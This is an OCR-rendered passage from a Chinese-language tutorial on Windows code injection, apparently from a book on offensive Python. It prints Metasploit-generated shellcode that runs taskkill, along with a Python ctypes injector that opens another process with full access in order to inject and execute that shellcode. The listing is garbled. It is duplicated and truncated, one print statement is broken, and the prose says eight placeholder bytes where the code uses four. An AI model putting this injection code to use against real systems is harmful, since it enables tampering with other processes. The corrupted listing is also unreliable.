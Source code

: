```py
```

Listing 7-1:由 Metasploit 产生的 Process-killing shellcode

生成的 shellcode 的时候记得选中 Restricted Characters 文本框以清除 0x00 字节，同时 Encoder 框设置成默认编码。在 shellcode 的最后一行你看到了重复的 8 个\x41。为什么是 8 个大小的 A？因为，后面我们要动态的指定 PID(需要被杀掉的进程)的时候，只要把 8 个\x41 替换成 PID 的数值就行了，剩下的位置用\x00 替换。如果之前生成的时候对 shellcode 进行 了编码，那后面的这 8 个 A 也会被编码，到时候你就会非常痛苦，根本找不出来替换的地 方。

现在我们有了自己的 shellcode，是时候回来进行实际的 code injection 工作了。

```py
#code_injector.py
import sys
from ctypes import *
# We set the EXECUTE access mask so that our shellcode will
# execute in the memory block we have allocated 
PAGE_EXECUTE_READWRITE = 0x00000040 
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF ) 
VIRTUAL_MEM = ( 0x1000 | 0x2000 )
kernel32 = windll.kernel32
pid = int(sys.argv[1]) 
pid_to_kill = sys.argv[2]
if not sys.argv[1] or not sys.argv[2]:
    print "Code Injector: ./code_injector.py <PID to inject> <PID to Kil sys.exit(0)
#/* win32_exec - EXITFUNC=thread CMD=cmd.exe /c taskkill /PID AAAA
#Size=159 Encoder=None http://metasploit.com */ 
shellcode = \
    "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" \ 
    "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" \ 
    "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" \ 
    "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" \ 
    "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" \ 
    "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09" \ 
    "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" \ 
    "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" \ 
    "\xe7\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x74\x61\x73\x6b" \
    "\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41\x41\x41\x41\x00" 
padding = 4 - (len( pid_to_kill ))
replace_value = pid_to_kill + ( "\x00" * padding ) 
replace_string= "\x41" * 4
shellcode = shellcode.replace( replace_string, replace_value ) 
code_size = len(shellcode)
# Get a handle to the process we are injecting into.
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) ) 
if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid 
```

```py
# code_injector.py 
import sys
from ctypes import *
# We set the EXECUTE access mask so that our shellcode will
# execute in the memory block we have allocated 
PAGE_EXECUTE_READWRITE = 0x00000040 
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF ) 
VIRTUAL_MEM = ( 0x1000 | 0x2000 )
kernel32 = windll.kernel32
pid = int(sys.argv[1]) 
pid_to_kill = sys.argv[2]
if not sys.argv[1] or not sys.argv[2]:
    print "Code Injector: ./code_injector.py <PID to inject> <PID to Kil 
    sys.exit(0)
#/* win32_exec - EXITFUNC=thread CMD=cmd.exe /c taskkill /PID AAAA
#Size=159 Encoder=None http://metasploit.com */ 
shellcode = \
```